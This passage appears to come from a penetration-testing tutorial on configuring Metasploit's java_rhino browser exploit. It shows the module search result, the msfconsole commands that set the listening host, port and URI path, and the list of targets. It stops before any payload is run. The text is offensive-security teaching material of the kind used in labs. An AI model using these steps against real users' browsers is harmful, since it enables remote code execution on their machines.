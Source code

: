 	Matching Modules
	================
	
	   Name                              Disclosure Date  Rank       Description
	   ----                              ---------------  ----       -----------
	   exploit/multi/browser/java_rhino  2011-10-18       excellent  Java Applet Rhino Script Engine Remote Code Execution
   
That looks good, if you don't have it navigate to **www.rapid7.com/db** to search and download the exploit.

### Configuring the Exploit
Now that we have the exploit let's configure it before running it:

	msf > use exploit/multi/browser/java_rhino 
	msf exploit(java_rhino) > show options
	
	Module options (exploit/multi/browser/java_rhino):
	
	   Name     Current Setting  Required  Description
	   ----     ---------------  --------  -----------
	   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
	   SRVPORT  8080             yes       The local port to listen on.
	   SSL      false            no        Negotiate SSL for incoming connections
	   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
	   URIPATH                   no        The URI to use for this exploit (default is random)
	
	
	Exploit target:
	
	   Id  Name
	   --  ----
	   0   Generic (Java Payload)
	
	
	msf exploit(java_rhino) > 

Let's configure 3 modules options: **SRVHOST**, **SRVPPORT**, and **URIPATH**:

	msf exploit(java_rhino) > set SRVHOST 192.168.1.30
	SRVHOST => 192.168.1.30
	msf exploit(java_rhino) > set SRVPORT 80
	SRVPORT => 80
	msf exploit(java_rhino) > set URIPATH /
	URIPATH => /
	msf exploit(java_rhino) > 

Also let's pick an appropriate **target** (you can see by default it's set to **Generic (Java Payload)**). We can check and set the target like this:

	msf exploit(java_rhino) > show targets
	
	Exploit targets:
	
	   Id  Name
	   --  ----
	   0   Generic (Java Payload)
	   1   Windows Universal
	   2   Apple OSX
	   3   Linux x86
	